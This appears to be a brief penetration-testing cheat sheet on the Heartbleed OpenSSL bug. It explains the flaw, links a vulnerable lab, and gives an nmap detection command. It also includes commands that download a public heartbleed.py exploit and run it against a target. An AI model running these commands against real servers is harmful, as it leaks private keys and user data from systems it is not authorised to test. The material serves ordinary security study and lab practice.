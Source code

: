 #### 2.1. About

- `https://xkcd.com/1354`
- `http://heartbleed.com`

Sever returns a memory dump based on the return length specified by the HTTP client.
- In: hey sever, reply POTATO (500 letters) if you're still there
- Out: will reply 500 letters - POTATO

Affects only the heart-beat module. Attack can be used to exfiltrate sensitive user data as well as the public/private SSL keys.

#### 2.2. Playground

```
https://github.com/hmlio/vaas-cve-2014-0160
```


#### 2.3. Vulnerability scanning

```
# nmap $ip -p 443 --script ssl-heartbleed -Pn -n -T5 | grep -oE VULNERABLE | sort -u
VULNERABLE
```


#### 2.4. Exploitation

```
# wget https://raw.githubusercontent.com/jivoi/pentest/master/tools/heartbleed.py
# python heartbleed.py -n20 https://$ip
```
